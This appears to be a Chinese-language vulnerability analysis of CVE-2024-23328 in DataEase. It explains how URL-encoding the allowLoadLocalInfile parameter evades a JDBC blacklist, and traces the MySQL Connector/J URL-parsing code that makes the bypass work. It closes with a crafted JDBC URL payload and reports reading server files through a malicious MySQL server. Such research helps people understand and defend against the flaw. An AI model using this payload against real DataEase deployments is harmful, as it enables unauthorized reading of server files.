






# Dataease jdbcUrl bypss 分析 (CVE-2024-23328) - 先知社区

Dataease jdbcUrl bypss 分析 (CVE-2024-23328)

- - -

# 漏洞描述

Dataease 是一个开源的数据可视化分析工具。DataEase 浏览器中存在漏洞，可利用此漏洞执行任意代码。漏洞代码的位置为`core/core-backend/src/main/java/io/dataease/database/type/Mysql.java`。mysql jdbc 攻击的黑名单可以被绕过，攻击者可以进一步利用它进行恶意执行或阅读任意文件。此漏洞已在 1.18.15 和 2.3.0 中修补。

# 环境安装

[Windows 单机部署 - DataEase 文档](https://dataease.io/docs/v2/installation/offline_installation_ova/)

# 补丁分析

参考修复：[fix: 限制 mysql 非法参数 · dataease/dataease@4128adf · GitHub](https://github.com/dataease/dataease/commit/4128adf5fc4592b55fa1722a53b178967545d46a)  
漏洞代码位置：  
core/core-backend/src/main/java/io/dataease/datasource/type/Mysql.java  
原本过滤如下：

```plain
for (String illegalParameter : illegalParameters) {
                if (getExtraParams().toLowerCase().contains(illegalParameter.toLowerCase())) {
                    DEException.throwException("Illegal parameter: " + illegalParameter);
                }
            }
```

对用户可控的 jdbc 参数，进行过滤，过滤黑名单如下：

```plain
private List<String> illegalParameters = Arrays.asList("autoDeserialize", "queryInterceptors", "statementInterceptors", "detectCustomCollations", "allowloadlocalinfile", "allowUrlInLocalInfile", "allowLoadLocalInfileInPath");
```

但是没有考虑 url 编码的情况，这里可以将 allowLoadLocalInfile=true 进行 url 编码得到

-   %61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=%74%72%75%65  
    \# 漏洞复现  
    后台存在数据库连接建立

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202100408-59a03cb2-c16f-1.png)

url 编码后成功绕过过滤，且 jdbc 连接时正常解析 url 编码，点击校验，成功向恶意服务器发送  
成功绕过过滤响应：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202100414-5d3da77e-c16f-1.png)

服务端收到带有 allowLoadLocalInfile=true 参数的连接，成功读取服务器文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202100419-603d7c42-c16f-1.png)

## ​url 编码是再何时被解析的？

mysql jdbcUrl 是怎么支持 URL 编码的，我们可以跟踪 jdbc 链接的数据流来看  
首先是调用 com.mysql.cj.jdbc.NonRegisteringDriver#connect

```plain
public Connection connect(String url, Properties info) throws SQLException {  
    try {  
        try {  
            if (!ConnectionUrl.acceptsUrl(url)) {  
                return null;  
            } else {  
                ConnectionUrl conStr = ConnectionUrl.getConnectionUrlInstance(url, info);  
                switch (conStr.getType()) {  
                    case SINGLE_CONNECTION:  
                        return ConnectionImpl.getInstance(conStr.getMainHost());  
                    case FAILOVER_CONNECTION:  
                    case FAILOVER_DNS_SRV_CONNECTION:  
                        return FailoverConnectionProxy.createProxyInstance(conStr);  
                    case LOADBALANCE_CONNECTION:  
                    case LOADBALANCE_DNS_SRV_CONNECTION:  
                        return LoadBalancedConnectionProxy.createProxyInstance(conStr);  
                    case REPLICATION_CONNECTION:  
                    case REPLICATION_DNS_SRV_CONNECTION:  
                        return ReplicationConnectionProxy.createProxyInstance(conStr);  
                    default:  
                        return null;  
                }  
            }  
        }...
```

看什么 jdbcurl 才能被 acceptsUrl 通过

```plain
public static boolean acceptsUrl(String connString) {  
    return ConnectionUrlParser.isConnectionStringSupported(connString);  
}
```

直接调用了 isConnectionStringSupported

```plain
public static boolean isConnectionStringSupported(String connString) {  
    if (connString == null) {  
        throw (WrongArgumentException)ExceptionFactory.createException(WrongArgumentException.class, Messages.getString("ConnectionString.0"));  
    } else {  
        Matcher matcher = SCHEME_PTRN.matcher(connString);  
        return matcher.matches() && Type.isSupported(decodeSkippingPlusSign(matcher.group("scheme")));  
    }  
}
```

需要正则匹配 SCHEME\_PTRN 如下：

```plain
(?<scheme>[\w\+:%]+).*
```

-   `(?<scheme>[\w\+:%]+)`: 这是一个捕获组，通过 `?<scheme>` 给捕获的内容指定了一个名字为 `scheme`。`[\w\+:%]+` 匹配一个或多个字符，这些字符可以是字母、数字、下划线、加号、冒号或百分号。这部分主要匹配 URL 中的协议部分。  
    例如：jdbc:mysql://127.0.0.1:3308/b 匹配 scheme 为 jdbc:mysql:
-   `.*`: 这部分匹配任意数量的字符（除了换行符）。它表示捕获 `scheme` 后的 URL 的其余部分。  
    scheme捕获到的协议部分经过com.mysql.cj.conf.ConnectionUrlParser#decodeSkippingPlusSign处理
    
    ```plain
    private static String decodeSkippingPlusSign(String text) {  
      if (StringUtils.isNullOrEmpty(text)) {  
          return text;  
      } else {  
          text = text.replace("+", "%2B");  
    
          try {  
              return URLDecoder.decode(text, StandardCharsets.UTF_8.name());  
          } catch (UnsupportedEncodingException var2) {  
              return "";  
          }  
      }  
    }
    ```
    
    这里会替换 + 为%2B 并尝试对 scheme 部分进行 url 解码（所以 jdbcUrl 的 scheme 部分也支持 url 编码）  
    然后回到 isConnectionStringSupported 再看 isSupported 函数处理
    
    ```plain
    public static boolean isSupported(String scheme) {  
      Type[] var1 = values();  
      int var2 = var1.length;  
    
      for(int var3 = 0; var3 < var2; ++var3) {  
          Type t = var1[var3];  
          if (t.getScheme().equalsIgnoreCase(scheme)) {  
              return true;  
          }  
      }  
    
      return false;  
    }
    ```
    
    这里使用了 java 枚举对象 values 函数
    
-   该方法用于将所有的枚举对象以数组的形式返回，方便使用  
    查看枚举类 Type

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202100438-6bcb5070-c16f-1.png)

可以看到存在很多枚举对象，存在属性 schema 和 implementingClass，也就是遍历这些对象 scheme，看是否存在。  
注：这里使用的 equalsIgnoreCase 不区分大小写，所以 jDbC:mYsqL 也一样可以  
再结合上面的 url 解码，其实 scheme 部分非常随便如：%6aDbC:mYsqL 也可以通过  
可以看出来 acceptsUrl 重点在于 scheme 的限制，只需要知道 scheme 需要符合以上枚举类定义即可

再回到 com.mysql.cj.jdbc.NonRegisteringDriver#connect

```plain
public Connection connect(String url, Properties info) throws SQLException {  
    try {  
        try {  
            if (!ConnectionUrl.acceptsUrl(url)) {  
                return null;  
            } else {  
                ConnectionUrl conStr = ConnectionUrl.getConnectionUrlInstance(url, info);  
                switch (conStr.getType()) {  
                    case SINGLE_CONNECTION:  
                        return ConnectionImpl.getInstance(conStr.getMainHost());  
                    case FAILOVER_CONNECTION:  
                    case FAILOVER_DNS_SRV_CONNECTION:  
                        return FailoverConnectionProxy.createProxyInstance(conStr);  
                    case LOADBALANCE_CONNECTION:  
                    case LOADBALANCE_DNS_SRV_CONNECTION:  
                        return LoadBalancedConnectionProxy.createProxyInstance(conStr);  
                    case REPLICATION_CONNECTION:  
                    case REPLICATION_DNS_SRV_CONNECTION:  
                        return ReplicationConnectionProxy.createProxyInstance(conStr);  
                    default:  
                        return null;  
                }  
            }  
        } ...
```

现在再看会发现 SINGLE\_CONNECTION，FAILOVER\_CONNECTION 等等都是在 Type 枚举类中定义好的。  
接着步入 com.mysql.cj.conf.ConnectionUrl#getConnectionUrlInstance

```plain
public static ConnectionUrl getConnectionUrlInstance(String connString, Properties info) {  
    if (connString == null) {  
       ...
    } else {  
        String connStringCacheKey = buildConnectionStringCacheKey(connString, info);  
        rwLock.readLock().lock();  
        ConnectionUrl connectionUrl = (ConnectionUrl)connectionUrlCache.get(connStringCacheKey);  
        if (connectionUrl == null) {  
            rwLock.readLock().unlock();  
            rwLock.writeLock().lock();  

            try {  
                connectionUrl = (ConnectionUrl)connectionUrlCache.get(connStringCacheKey);  
                if (connectionUrl == null) {  
                    ConnectionUrlParser connStrParser = ConnectionUrlParser.parseConnectionString(connString);  
                    connectionUrl = ConnectionUrl.Type.getConnectionUrlInstance(connStrParser, info);  
                    connectionUrlCache.put(connStringCacheKey, connectionUrl);  
                }  

                rwLock.readLock().lock();  
            } finally {  
                rwLock.writeLock().unlock();  
            }  
        }  

        rwLock.readLock().unlock();  
        return connectionUrl;  
    }  
}
```

buildConnectionStringCacheKey 对参数 properties 进行了拼接成为 connStringCacheKey

```plain
private static String buildConnectionStringCacheKey(String connString, Properties info) {  
    StringBuilder sbKey = new StringBuilder(connString);  
    sbKey.append("§");  
    sbKey.append(info == null ? null : (String)info.stringPropertyNames().stream().map((k) -> {  
        return k + "=" + info.getProperty(k);  
    }).collect(Collectors.joining(", ", "{", "}")));  
    return sbKey.toString();  
}
```

拼接的格式是 jdbcurl§{xx=xx,xxx=xxx}  
如下图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202100455-75afaeec-c16f-1.png)

然后根据返回的 connStringCacheKey 尝试从缓存中获取 connectionUrl  
没有缓存就通过 parseConnectionString 获取 ConnectionUrlParser 对象（使用的是原始 jdbcurl 不是 key 处理过的）

```plain
private ConnectionUrlParser(String connString) {  
    if (connString == null) {  
      xxx
    } else if (!isConnectionStringSupported(connString)) {  
      xxx 
    } else {  
        this.baseConnectionString = connString;  
        this.parseConnectionString();  
    }  
}
```

可以看到这里又调用了 isConnectionStringSupported，又一次对 scheme 进行了校验  
往下看 parseConnectionString 函数

```plain
private void parseConnectionString() {  
    String connString = this.baseConnectionString;  
    Matcher matcher = CONNECTION_STRING_PTRN.matcher(connString);  
    if (!matcher.matches()) {  
        throw (WrongArgumentException)ExceptionFactory.createException(WrongArgumentException.class, Messages.getString("ConnectionString.1"));  
    } else {  
        this.scheme = decodeSkippingPlusSign(matcher.group("scheme"));  
        this.authority = matcher.group("authority");  
        this.path = matcher.group("path") == null ? null : decode(matcher.group("path")).trim();  
        this.query = matcher.group("query");  
    }  
}
```

CONNECTION\_STRING\_PTRN 正则如下：

```plain
(?<scheme>[\\w\\+:%]+)\\s*(?://(?<authority>[^/?#]*))?\\s*(?:/(?!\\s*/)(?<path>[^?#]*))?(?:\\?(?!\\s*\\?)(?<query>[^#]*))?(?:\\s*#(?<fragment>.*))?
```

以 jdbc:mysql://127.0.0.1:3308/b?user=aaa&password=bbb 为例

-   -   `(?<scheme>[\\w\\+:%]+)`: 这是一个捕获组，用于匹配 jdbcurl 的协议部分。`[\w\+:%]+` 匹配一个或多个字符，可以是字母、数字、下划线、加号、冒号或百分号。
        -   匹配 jdbc:mysql
-   `\\s*`: 这部分匹配零个或多个空白字符
    -   匹配空白
-   `(?://(?<authority>[^/?#]*))?`: 这是一个可选的捕获组，用于匹配 jdbcurl 中的 authority 部分，如 `//example.com:8080`。`(?<authority>[^/?#]*)` 匹配 authority 部分的字符，但不包括 `/`、`?` 和 `#`。
    -   匹配 127.0.0.1:3308
-   `(?:/(?!\\s*/)(?<path>[^?#]*))?`: 这是一个可选的捕获组，用于匹配 URL 中的路径部分。`(?: ... )` 表示一个非捕获组，`(?!\\s*/)` 表示路径不能以零个或多个空白字符后跟 `/` 开头。`(?<path>[^?#]*)` 匹配路径部分的字符，但不包括 `?` 和 `#`。
    -   匹配 b
-   `(?:\\?(?!\\s*\\?)(?<query>[^#]*))?`: 这是一个可选的捕获组，用于匹配 URL 中的查询部分。`(?:\\? ... )` 表示查询部分以 `?` 开头。`(?!\\s*\\?)` 表示查询部分不能以零个或多个空白字符后跟 `?` 开头。`(?<query>[^#]*)` 匹配查询部分的字符，但不包括 `#`。
    -   匹配 user=aaa&password=bbb
-   `(?:\\s*#(?<fragment>.*))?`: 这是一个可选的捕获组，用于匹配 URL 中的片段部分。`(?:\\s*# ... )` 表示片段部分以 `#` 开头。`(?<fragment>.*)` 匹配片段部分的所有字符。
    
    -   **这里存在 jdbc bypass 另外一个 gadget，#符号后面的字符会被解析为注释**  
        然后正则匹配的各个部分就会被添加到 ConnectionUrlParser 属性中，ConnectionUrlParser 还存在 parseQuerySection 函数将 jdbcurl query 部分解析为 Properties
        
        ```plain
        private void parseQuerySection() {  
        if (StringUtils.isNullOrEmpty(this.query)) {  
          this.parsedProperties = new HashMap();  
        } else {  
          this.parsedProperties = this.processKeyValuePattern(PROPERTIES_PTRN, this.query);  
        }  
        }
        ```
        
        正则 PROPERTIES\_PTRN 如下
        
        ```plain
        [&\\s]*(?<key>[\\w\\.\\-\\s%]*)(?:=(?<value>[^&]*))?
        ```
        
        存在 query 时步入 processKeyValuePattern
        
        ```plain
        private Map<String, String> processKeyValuePattern(Pattern pattern, String input) {  
        Matcher matcher = pattern.matcher(input);  
        int p = 0;  
        
        HashMap kvMap;  
        for(kvMap = new HashMap(); matcher.find(); p = matcher.end()) {  
          if (matcher.start() != p) {  
              throw (WrongArgumentException)ExceptionFactory.createException(WrongArgumentException.class, Messages.getString("ConnectionString.4", new Object[]{input.substring(p)}));  
          }  
        
          String key = decode(StringUtils.safeTrim(matcher.group("key")));  
          String value = decode(StringUtils.safeTrim(matcher.group("value")));  
          if (!StringUtils.isNullOrEmpty(key)) {  
              kvMap.put(key, value);  
          } else if (!StringUtils.isNullOrEmpty(value)) {  
              throw (WrongArgumentException)ExceptionFactory.createException(WrongArgumentException.class, Messages.getString("ConnectionString.4", new Object[]{input.substring(p)}));  
          }  
        }  
        
        if (p != input.length()) {  
          throw (WrongArgumentException)ExceptionFactory.createException(WrongArgumentException.class, Messages.getString("ConnectionString.4", new Object[]{input.substring(p)}));  
        } else {  
          return kvMap;  
        }  
        }
        ```
        
        正则匹配解析如下
        
-   `[&\\s]*`: 这部分匹配零个或多个 "&" 或空白字符。
-   `(?<key>[\\w\\.\\-\\s%]*)`: 这是一个捕获组，用于匹配参数的键。`[\\w\\.\\-\\s%]*` 匹配零个或多个字母、数字、下划线、点、连字符、空白字符或百分号。捕获的内容将被命名为 "key"。
-   `(?:=(?<value>[^&]*))?`: 这是一个非捕获组，用于匹配参数值。`(?: ... )` 表示一个非捕获组，`=(?<value>[^&]*)` 表示参数值以 "=" 开头，后跟零个或多个非 "&" 的字符。捕获的内容将被命名为 "value"。  
    整个正则表达式将匹配 URL 查询字符串中的一个参数，并将参数的键和值捕获到对应的捕获组中。如果参数没有值，则 "value" 捕获组可能不存在。  
    可以看到获取到键值对后，调用了trim删除空白字符，然后使用com.mysql.cj.conf.ConnectionUrlParser#decode进行解码
    
    ```plain
    private static String decode(String text) {  
      if (StringUtils.isNullOrEmpty(text)) {  
          return text;  
      } else {  
          try {  
              return URLDecoder.decode(text, StandardCharsets.UTF_8.name());  
          } catch (UnsupportedEncodingException var2) {  
              return "";  
          }  
      }  
    }
    ```
    
    可以看到调用的时 url 编码，这也是为什么 jdbc 中键值对可以 url 编码，但是=不能 url 编码的原因  
    但是这个过程不是在 ConnectionUrlParser 初始化时调用的  
    是在com.mysql.cj.conf.ConnectionUrl.Type#getConnectionUrlInstance初始化中发生
    
    ```plain
    public static ConnectionUrl getConnectionUrlInstance(ConnectionUrlParser parser, Properties info) {  
      int hostsCount = parser.getHosts().size();  
      Type type = fromValue(parser.getScheme(), hostsCount);  
      PropertyKey dnsSrvPropKey = type.getDnsSrvPropertyKey();  
      if (dnsSrvPropKey != null && type.getAlternateDnsSrvType() != null) {  
          if (info != null && info.containsKey(dnsSrvPropKey.getKeyName())) {  
              if ((Boolean)PropertyDefinitions.getPropertyDefinition(dnsSrvPropKey).parseObject(info.getProperty(dnsSrvPropKey.getKeyName()), (ExceptionInterceptor)null)) {  
                  type = fromValue(type.getAlternateDnsSrvType().getScheme(), hostsCount);  
              }  
          } else {  
              Map parsedProperties;  
              if ((parsedProperties = parser.getProperties()).containsKey(dnsSrvPropKey.getKeyName()) && (Boolean)PropertyDefinitions.getPropertyDefinition(dnsSrvPropKey).parseObject((String)parsedProperties.get(dnsSrvPropKey.getKeyName()), (ExceptionInterceptor)null)) {  
                  type = fromValue(type.getAlternateDnsSrvType().getScheme(), hostsCount);  
              }  
          }  
      }  
    
      return type.getImplementingInstance(parser, info);  
    }
    ```
    
    这里对 dnsSrv 进行了判断，主要还是在 if 中调用了 getProperties 函数
    
    ```plain
    public Map<String, String> getProperties() {  
      if (this.parsedProperties == null) {  
          this.parseQuerySection();  
      }  
    
      return Collections.unmodifiableMap(this.parsedProperties);  
    }
    ```
    
    此时 parsedProperties 属性为 null，从而调用 parseQuerySection 初始化额外参数，也就对额外参数进行了 url 解码  
    根据上面的分析，最终可以给出的特殊 jdbcurl
    
    ```plain
    %6adBc:mYsQl://127.0.0.1:3308/xxx?  %61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65  =  %74%72%75%65#
    ```
    
    依旧可以做到利用
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202100509-7dc797f2-c16f-1.png)
